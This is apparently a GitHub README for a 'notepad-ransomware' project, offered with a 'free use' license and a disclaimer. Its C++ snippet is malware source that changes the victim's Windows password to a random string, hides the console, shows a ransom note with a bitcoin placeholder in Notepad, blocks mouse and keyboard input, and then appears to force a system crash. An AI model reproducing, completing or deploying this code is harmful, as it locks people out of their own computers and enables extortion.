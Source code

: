 ##### notepad-ransomware
<hr>

```cpp
string user_name = g_utils.get_user_name(); // getting user name

g_utils.rename_builder(); // renaming builder to random chars
g_win32.show_window(g_win32.get_console_window(), 0); // hide console
g_utils.set_password_windows(user_name, g_utils.random_string(25)); // setting random password of victim windows
g_utils.show_notepad(user_name, "your btc here"); // show readme using notepad.exe
g_win32.block_input(1); // blocking use mouse and keyboard
g_win32.sleeping_mode(10800000); // Sleep() in 3 hrs
g_nt.jmp_raise(19, ((DWORD)0xC00002B4L)); // call nt
```

##### Demostration
<hr>

![d](https://github.com/carterjwasd/notepad-ransomware/blob/main/demo.jpg)

#### Warning message
<hr>

Use it at your own risk. <br>
The author is not responsible for your actions in using this is.

#### License
<hr>

free use
